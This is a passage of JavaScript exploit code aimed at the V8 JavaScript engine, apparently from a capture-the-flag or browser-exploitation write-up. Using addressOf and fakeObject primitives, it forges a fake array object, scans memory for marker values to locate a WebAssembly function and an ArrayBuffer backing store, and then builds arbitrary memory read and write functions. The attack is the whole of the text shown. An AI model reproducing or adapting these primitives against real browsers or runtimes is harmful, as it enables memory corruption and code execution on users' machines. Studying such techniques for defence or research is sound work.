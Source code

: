 ```javascript
	i2f(0x200000000000),
	1.1,
	2.2
];

%DebugPrint(fake_array); // fake array map address
var fake_array_addr = f2i(addressOf(fake_array));
console.log("[+] fake_array_addr: 0x"+hex(fake_array_addr));
var fake_object_addr = fake_array_addr - 0x40 + 0x10;
console.log("[+] fake_object_addr: 0x"+hex(fake_object_addr));
var fake_object = fakeObject(i2f(fake_object_addr));

fake_array[2] = i2f(fake_array_addr);

%DebugPrint(fake_object.length);

data_buf = new ArrayBuffer(0x233);
obj = {mark: i2f(0xdeadbeef), obj: wasm_function};

//---------find wasm_function

%DebugPrint(wasm_function);

var float_obj_idx = 0;
for(let i=0; i < 0x400; i++)
{
	if(f2i(fake_object[i]) == 0xdeadbeef){
		float_obj_idx = i + 1;
		console.log("[+] find wasm_function obj : 0x" + hex(f2i(fake_object[float_obj_idx])));
		break;
	}
}

//------ find backing_store
var data_view = new DataView(data_buf);
var float_buffer_idx = 0;
for(let i=0; i < 0x1000; i++)
{
	if(f2i(fake_object[i]) == 0x233){
		float_buffer_idx = i + 1;
		console.log("[+] find data_buf backing_store : 0x" + hex(f2i(fake_object[float_buffer_idx])));
		break;
	}
}

//----- arbitrary read
function dataview_read64(addr)
{
	fake_object[float_buffer_idx] = i2f(addr);
	return f2i(data_view.getFloat64(0, true));
}

//----- arbitrary write
function dataview_write(addr, payload)
{
	fake_object[float_buffer_idx] = i2f(addr);
	for(let i=0; i < payload.length; i++)
	{
		data_view.setUint8(i, payload[i]);
	}
}

```
